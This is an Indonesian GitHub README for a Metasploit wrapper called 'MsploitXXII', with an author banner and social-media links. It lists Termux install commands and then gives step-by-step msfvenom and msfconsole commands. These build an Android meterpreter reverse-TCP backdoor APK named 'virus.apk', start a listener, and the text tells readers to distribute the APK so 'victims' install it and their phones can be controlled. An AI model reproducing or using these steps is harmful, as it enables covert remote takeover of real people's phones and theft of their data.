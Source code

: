 # MspoitZonaredXXII
By. Mr.XXII
Team : ZONAREDXXII Security Hacker Commander
Follow Me :
Whatsapp Me : https://bit.ly/3yYoNJH
Telegram : https://bit.ly/2VDRZHD
Facebook : https://bit.ly/3AYn8pb
Instagram : https://bit.ly/3hCkH41
Blog : https://bit.ly/3r5n16I
Grup WhatsApp : https://bit.ly/3wJQfct
Youtube : https://bit.ly/3kglnhk
■■■■■■■■■■■■■■■■■■■■■■■■■

INSTALL & KERJA METASPLOIT :
$ pkg update && pkg upgrade
$ pkg install bundler
$ pkg install wget
$ pkg install ruby
$ pkg install git
$ git clone https://github.com/ZONAREDXXII/MsploitXXII.git
$ cd MsploitXXII
$ chmod +x MsploitXXII.sh
$ ./MsploitXXII.sh

CARA KERJANYA :
1. Pertama kita akan membuat payload/backdoor atau virus yang kita gunakan untuk dirimkan ke korban agar dapat akses ke HP nya.
Silahkan ketik: 
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP Kamu LPORT=8080 -o /sdcard/virus.apk

2. Cara mengetahui IP address kita ketik : ifconfig

> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set lhost IP KAMU
> set lport 8080
> run
setelah itu,kita sebarkan payload yang sudah kita buat diawal tadi,agar diinstal di hp korban,anda juga bisa mencoba pada teman, saudara atau di hp sendiri.

jika ada korban yang menginstal dan menjalankan virus tersebut,kita sudah dapat mengendalikan hp korban dengan perintah-perintah yang terdapat pada Metasploit

Untuk mengetahui perintah yang dapat kita gunakan ketik help.
